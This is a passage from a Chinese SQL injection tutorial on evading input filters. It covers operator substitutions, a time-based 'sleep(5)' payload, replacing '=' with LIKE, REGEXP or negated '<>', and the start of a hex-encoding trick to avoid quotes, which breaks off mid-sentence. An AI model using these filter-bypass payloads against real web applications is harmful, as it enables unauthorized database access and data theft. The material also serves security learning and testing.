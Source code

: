 ```bash
or = ||
and = &&
xor = | 或者 ^ # 异或,例如Select * from cms_users where userid=1^sleep(5);
not = !
1234
```

## 9.对等号=绕过

不加通配符的like执行的效果和 = 一致，所以可以用来绕过。
正常加上通配符的like：

```bash
 Select * from cms_users where username like "ad%";
1
```

不加上通配符的like可以用来取代=：

```bash
 Select * from cms_users where username like "admin";
1
```

regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配

```bash
Select * from cms_users where username REGEXP "admin";
1
```

使用大小于号来绕过

```bash
Select * from cms_users where userid>0 and userid<2;
1
```

<> 等价于 != ,所以在前面再加一个 ! 结果就是等号了

```bash
Select * from cms_users where !(username <> "admin");
1
```

## 10.对单引号的绕过

使用十六进制
会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```bash
select column_name  from information_schema.tables where table_name="users"
1
```

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
　　users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：
